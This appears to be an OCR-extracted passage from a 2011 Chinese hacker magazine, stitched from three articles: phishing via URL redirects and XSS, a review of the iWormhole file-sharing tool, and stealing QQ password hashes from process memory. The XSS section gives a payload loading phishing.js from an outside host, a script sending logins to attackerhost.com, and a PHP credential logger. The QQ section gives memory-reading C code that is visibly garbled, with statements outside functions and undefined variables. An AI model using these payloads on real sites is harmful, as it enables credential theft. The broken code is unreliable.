# 黑客X档案合订本2011年（上）第二部分


# 安全第一

么效果呢？（如图5）

些破坏。


这样我们在配合适当的语言渲染下发送给受害者，效果就会好很多！又有人会问，现在很多网民都安装了相关安全软件，比如XX安全卫士、XX网盾等等都带有钓鱼功能，但是经过小黑分析，很多安全软件都是针对钓鱼网站URL比如 http://cctv-3.163.os.io 加入数据库。如果用户打开这样的网站就会出现报警界面。那么如何突破呢？这个问题很好，小黑这里给出我个人思路“Url跳转漏洞”。

## 三、Url跳转漏洞的防范

### 1. 什么是Url跳转漏洞

此漏洞让用户访问恶意网站而不自知。因为Web应用程序接收到用户提交的URL参数后，没有对参数做“可信任URL”的验证，就向用户浏览器返回跳转到该URL的指令。

### 2. 实例

谷歌的URL跳转漏洞：http://www.google.com.hk/search?btnl=1&q=allinurl:http://www.sitedirsec.com

一般来说这样URL大部分网民一眼看估计是Google的网站URL，可能都会点击去看看。这样就更好帮助钓鱼攻击泛滥。

### 3. 如何防御

综上所述基本都是小黑对邮件钓鱼攻击个人见解，如有不到位的地方可以一起讨论。这里小黑告诉大家以下几种防范方法。

#### 个人用户的建议：

- 1. 提高警易，不登录不熟悉的网站，键入网站地址的时候要校对，以防输入错误误入狼窝。
- 2. 不要打开陌生人的电子邮件，更不要轻信他人说教，特别是即时通讯工具上的传来的消息，很有可能是病毒发出的。
- 3. 安装杀毒软件并及时升级病毒知识库，修补操作系统漏洞。
- 4. 将敏感信息输入隐私保护，打开个人防火墙。
- 5. 收到不明电子邮件时不要点击其中的任何链接。登录银行网站前，要留意浏览器地址栏，如果发现网址地址栏不能修改，最小化IE窗口后仍可看到存在桌面上的网页地址栏等现象，请立即关闭IE窗口，以免账户密码被盗。

#### 企业用户的建议：

- 1. 安装杀毒软件和防火墙。
- 2. 加强电脑安全管理，及时更新杀毒软件，升级操作系统补丁。
- 3. 加强员工安全意识，及时培训网络安全知识。
- 4. 一旦发现有害网站，要及时在防火墙中屏蔽它。
- 5. 为避免被“冒名”，可以加大制作网站的难度。

具体办法包括：不使用弹出式广告、不隐藏地址栏、不使用框架等。这种防范是必不可少的，因为一旦网站名称被“冒名”者利用的网站，企业也会被卷进来，所以应该在这方面做好准备。

## 四、跨站脚本攻击漏洞

### 1. 什么是跨站漏洞攻击

业界对跨站攻击的定义如下：“跨站攻击是指入侵者在远程WEB页面的HTML代码中，插入具有恶意目的的脚本。用户认为该页面是可信赖的，但浏览器下载该页面、嵌入其中的恶意脚本就会执行。”由于HTML语言允许使用脚本进行简单交互，入侵者便通过技术手段在某条记录里面插入一个恶意HTML代码，例如，论坛保存的用户信息、Cookie。由于Cookie保存了完整的用户名和密码资料，用户就会遭受安全损失。如这简单的JavaScript脚本就能轻易获取用户信息：alert(document.cookie)，它会弹出一个包含用户信息的消息框。入侵者运用脚本就能把用户信息发送到他们自己的记录页面中，稍做分析便获取了用户的敏感信息。

### 2. 跨站攻击是如何滋生钓鱼攻击的

相信大家肯定见过跨站地址就是XSS，有些朋友可能会不以为意（如图6），其实他危害还是相当大的。一般来讲……

# 2011合乃本土卷

# 黑客宝典

说，还经常伴随着页面变形的情况。而所谓跨站脚本执行漏洞，也就是通过别人的网站达到攻击的效果，这种攻击能在一定程度上隐藏身份。虽然 XSS 漏洞攻击方法很多，但是我们今天主题是钓鱼攻击。



```html
<form method="POST" action="somepage.php" name="userslogin">
  User: <input type="text" name="user">
  Pass: <input type="password" name="pass">
  <input type="submit" name="submit" value="Login">
</form>
<!-- -- EOF -->
```

这是一个登陆表单，这里没有 SQL 注入，现在我们就可以利用当前发现的 XSS 漏洞开工了。我们需要的信息：登陆表单 “userslogin”；用户名文本域 “userslogin.user”；密码文本域 “userslogin.pass”。

如果页面中包含登陆表单与搜索引擎，可以通过劫持提交的数据，使其发送到我们控制的远程主机上建立的网页，而非 “somepage.php”。我们可以将恶意构造的 URL 链接按发送给别人，让他们登陆，比如：

```html
http://download.csdn.net/sort/tag/<script>alert('yes')</script>
<script src="http://xxxxxx.com/phishing.js"></script>
```

```javascript
/* phishing.js */
form = document.forms['userslogin'];
function stealLogin() {
  var iframe = document.createElement('iframe');
  iframe.style.display = 'none';
  iframe.src = 'http://attackerhost.com/getlogin';
}
```

下面这段代码可以将登陆认证提交给在页面主体内容中创建的隐藏的 iframe，并加载其它恶意 PHP 脚本，以获得用户名与密码并保存它们。代码如下：

```php
<?php
  $user = $_GET['user'];
  $pass = $_GET['pass'];
  $file_path = "store/logins.txt";
  $file = @fopen($file_path, "a");
  fwrite($file, "User: $user, Pass: $pass\n");
  fclose($file);
?>
/* EOF */
```

这些代码很容易理解：获取登陆用户名与密码，并写入登陆信息文件中。结合这两个恶意脚本，攻击者就可以利用这个“小小”（管理员经常这样认为）的漏洞，获得重要的认证信息，使通过 WEB 程序验证成为可能。当然，这是个例子！

## 3. 如何防御跨站攻击

要避免受到跨站脚本执行漏洞的攻击，需要程序员和用户两方面共同努力。

#### 程序员：

- 1. 过滤或转换用户提交数据中的HTML代码。
- 2. 限制用户提交数据的长度。

#### 用户：

- 1. 不要轻易访问别人给你的链接。
- 2. 禁止浏览器运行JavaScript和ActiveX代码。

附：常见浏览器修改设置的位置为

#### Internet Explorer：

- 工具->Internet选项->安全->Internet->自定义级别
- 工具->Internet选项->安全->Intranet->自定义级别

#### Opera：

- 文件->快速参数->允许使用Java
- 文件->快速参数->允许使用插件
- 文件->快速参数->允许使用JavaScript

## 五、软件钓鱼

软件钓鱼这种钓鱼方法没有前两种常见，个人感觉有点鸡肋（守株待兔的感觉）。就是制造好一个软件然后发布在网络上，等待别人下载触发里面事先盗取了你的账号（如图7）。

### 防范方法：

软件钓鱼攻击，一般只存在于相对某游戏或者某应用程序进行投机取巧的操作，所以小编建议，尽量少用外挂和来源模糊诱惑力高的软件，天下没有免费的午餐。有需要的个人信息的（比如游戏的账号密码，手机号码等）更需要慎重。



图7

## 六、总结

说到这里大部分的钓鱼攻击基本都给大家介绍完毕，当然还有没有介绍到的地方还请大家多包涵，在遇到钓鱼网站的时候，面对字字朋友还是建议有一定基础情况下进行相关实践。钓鱼攻击说到底，无论如何变化都是那么几种，只要你操作之前细心观察，没有投机取巧的心理，钓鱼攻击就会从我们身边逐渐远去。

很多网盘都提供了文件共享下载功能，允许您将文件上传到网盘中，并为其分配外链地址，这样您只需将该地址告诉别人，别人就可以方便快捷的下载文件了。其好处是便于文件大面积共享。不过问题也随之而来，当您希望将机密文件共享给指定好友时，如果采用上述方法，就容易产生信息泄露的问题。只要知道了下载地址，任何人都可以下载您的机密文件。iWormhole巧妙的解决上述难题，iWormhole不是为文件提供共享地址，而是使用独特的安全识别码来标识文件，同时允许为文件设置下载密码。指定的用户只能使用属于自己的识别码来下载文件，当文件下载之后可以自动删除。在数据传输过程中，还使用高强度加密算法保证文件的安全性。

当初次使用iWormhole时，在向导窗口，如图1中选择“I want to register new iWormhole.com account”项。在下一步窗口，如图2中依次输入您的姓名、账户名称、密码以及邮箱地址，点击“Next”按钮，完成属于您的iWormhole账户创建操作。之后在向导窗口中选择“I have an account on iWormhole.com”项。

hole.com" 项，在下一步窗口中输入您的iWormhole账户名，密码和邮箱地址，点击"Next"按钮，完成账户的登录操作。随后在桌面上即可出现独特的iWormhole悬浮窗，如图3，您可以将其拖动到桌面任意位置。有趣的是，当鼠标指针移动到iWormhole悬浮窗上，悬浮窗中即可出现奇特光影变化的效果，如同打开了宇宙中神秘的虫洞之门。





当您需要通过iWormhole传输文件时，只需将文件拖动到iWormhole悬浮窗中，即可打开文件发送窗口，如图4，在窗口顶部显示文件的名称、类型、大小等信息。在"To"栏中输入目标邮箱地址，每一行对应一个邮箱地址，您可以输入多个邮箱地址。当然，也可以点击"Address Book"按钮，在邮箱管理器中添加所需的邮箱地址，这样可以快速输入邮箱信息。在"Subject"栏中可以设置邮件主题（默认为选定的文件名），在"Comments"栏中可以输入其描述信息。为了提高文件共享的安全性，最好勾选"Protect this file with password"项，在其右侧输入密码。以后下载本文件时，必须输入预设的密码方可。

点击"Send file"按钮，在iWormhole悬浮窗中出现文件发送信息，如图5，包括发送的速度、剩余的时间、进度






# 安全第一

信息等。如果点击“Stop”按钮，可以取消文件发送操作。

iWormhole采用了独特的文件标识码来下载文件；当用户进入自己的邮箱后，打开iWormhole发来的确认邮件，其中显示文件发送信息，其中的“FILE PICKUP ID#”栏中就是该文件的安全识别码，如图6。


使用者必须安装运行iWormhole，在其悬浮窗右键菜单中点击“Pickup file”项，在弹出窗口中输入该文件安全识别码，点击OK按钮，iWormhole就可以据此执行文件下载操作。如果为其设置了密码的话，必须输入正确的密码方可下载，如图7。



下载完成后，会自动打开文件保存路径（默认为我的文档中的“My Downloads”文件夹），在其中可以浏览得到的所有文件。值得说明的是，在文件传输和下载过程中，iWormhole使用256位AES高强度加密算法对数据进行加密处理，保证数据传输的安全性。此外，当接收者打开自己的邮箱，收到您发来的文件存储信息，并使用该文件的下载识别码下载完文件后，iWormhole可以自动将该文件从远程存储空间中删除，也就是说，当其他人试图使用相同的文件识别码下载时，将无法再次下载。

安全识别码执行下载操作时，iWormhole将提示下载失败，当然，您也可以在iWormhole悬浮窗右键菜单中点击“Send file”项，选择目标文件，同样可以执行文件发送操作。

文件发送到多个邮箱，不同邮箱的主人就可以得到各自的文件安全识别码，尽管这些识别码完全相同，但是不影响其多次下载操作，也就是说，每一个邮箱主人都可以执行一次文件下载操作。注意，对于免费版用户来说，文件只能在远程服务器上存储72小时。

在iWormhole悬浮窗右键菜单中点击“Settings”项，在设置窗口中，如图8顶部点击“Tweaks”按钮，在“Downloaded files location”栏中点击“Choose”按钮，可以更改下载文件保存路径。如果您使用代理服务器上网的话，需要选择“Manually enter proxy settings”项，输入代理服务器的地址和端口号。在“Sounds”面板中的“Startup”、“Transfer started”、“Transfer finished”等列表中可以分别设定启动iWormhole、开始文件传输、文件传输完成后的提示音。

在窗口顶部点击“Advanced”按钮，在窗口下部的“Threads count”栏中拖动滑块，可以调整文件传输使用的线程数量；在“Chunk size”栏中拖动滑块，可以设置文件分块传输的尺寸。如果您的显卡支持CUDA技术，那么在窗口顶部点击“GPU”按钮，勾选“Use my video-card to boost encryption speed”项，表示允许使用显卡中的CUDA并行计算架构来加速文件加密的速度。在“Select CUDA-compatible device”列表中选择合适的显卡即可。实际上，现在主流的NVidia显卡都支持CUDA技术。


# 利用哈希表破解QQ密码

QQ账号的安全防护一直是一个热门话题，关于键盘记录等技术的实现方式在网上的讨论非常多。由于攻防不断升级，QQ自身的安全性也在不断提高，从QQ最近几年的技术实现来看，QQ的键盘输入安全一直是重点关注对象，要进行密码获取将会涉及到一些比较底层的技术，难度相对较大。但是，从另外一个角度去思考问题，我们会发现一些用户不多，却是非常有效的方法，本文将为大家介绍使用内存读取的方法来破解QQ密码。



我们通过输入正确的账号密码完成QQ的登录，在这个过程中，QQ除了把账号密码发送到服务器进行验证之外，还会在内存中保存至少一份密码的哈希值，这个值可以进行之后的一些访问的验证，比如打开QQ游戏等。我们要通过内存读取的方式来获得QQ密码，首先需要知道QQ密码哈希值到底放在内存的哪个位置。当然，我们没有必要自己编程搜索哈希值的位置，有一个开源的软件叫Cheat Engine，它本来是用来在打游戏的时候作弊用的，不过我们可以利用它很好地完成搜索哈希值的任务。

打开Cheat Engine 5.4，点击左上角的那个小电脑的图标选择我们要打开的进程“QQ.exe”。界面上部的“Value type”选择为“Array of Bytes”，表示我们要搜索连续的字节；勾选“Hex”标签前面的选择框，然后把前面得到的哈希值粘贴到“Hex”后面的文本框。（如图2）


点击“First Scan”，开始我们的第一次搜索。软件界面左侧马上显示了3个存放哈希值的位置：00107494、01a9a3647和01aba97c。这三个值只是存放了密码哈希值的位置的地址，这些位置可能是会变动的，我们还要继续寻找指向这些地址的指针。将“Value type”改为“4 Bytes”，分别将上面三个地址粘贴到搜索框，可以得到指向00107494的地址为01a2e448，指向01a9a364的地址为01974a9c，没得到01aba97c这个值。现在我们开始感到疑惑了，到底上面哪一个地址才是基址呢？

既然身为基址，那么可以确定的是它在相同的环境中所在的位置是不会变化的。于是，我们可以不断地再开一个QQ，在新开的QQ进程里面重新完成一次上面的过程。这次，还是得到3组和之前类似的数据：指向00107494的地址为01a2e448，指向01a99c?4的地址为01974dac，没有找到01aca34c。不能省略，地址为01a2e448的这个指针在两个QQ里面都没有变，我们可以用这个地址来编程实现内存读取，入自己的账号密码登陆之后就不用再管它了。然后我们需要读取哈希值。

本来已经用MFC写过一个GUI程序，但为了方便讲解，重新写了一个控制台界面的程序，尽量避免MFC内容的干扰。此程序使用VC6.0编写并运行通过。

# 安全解密一

```c
#include <windows.h>
#include <wincrypt.h>
#include <stdio.h>

/* MD5算法的输出为128位，即16字节 */
#define MD5SIZE 16

/* 我们之前通过 Cheat Engine 得到的指针的地址 */
#define BASEPTR 0x012e448

/**
 * 将128位MD5信息摘要转换为十六进制字符串
 * 的字符串并进行打印出来。
 */
void ShowHashValue(BYTE *md5)
{
    int i;

    /* 将2进制数据转换为16进制字符串 */
    for (i = 0; i < MD5SIZE; i++)
    {
        BYTE high = md5[i] >> 4;
        BYTE low = md5[i] & 0x0f;

        if (high < 10)
            high = high + '0';
        else
            high = high - 10 + 'a';

        if (low < 10)
            low = low + '0';
        else
            low = low - 10 + 'a';

        str[MD5SIZE * 2] = '\0';
        printf("%c%c", high, low);
    }
}

/**
 * 安全地读取指定进程空间内存数据到目标地址。
 */
void ReadMemoryData(UINT pid, PVOID psource,
                    PVOID ptarget, int size)
{
    /* 打开指定的进程 */
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == 0) return;
}

DWORD dwOld;
MEMORY_BASIC_INFORMATION mbi;

/* 查找与前两行存储区域地址相同的内存 */
VirtualQueryEx(source, &mbi, sizeof(mbi));
VirtualProtect(psource, size, PAGE_READWRITE, &dwOld);

ReadProcessMemory(hProcess, psource, ptarget,
                  size, NULL);

VirtualProtect(psource, size, dwOld, &dwOld);
CloseHandle(hProcess);

/**
 * 打开指定的ID的进程，并取其中的哈希值最后保存。
 */
void GetHashValueByProcessID(UINT pid)
{
    /* 获取进程的句柄 */
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    if (hProcess == 0) return;

    /* 获取指定进程模块的基址 */
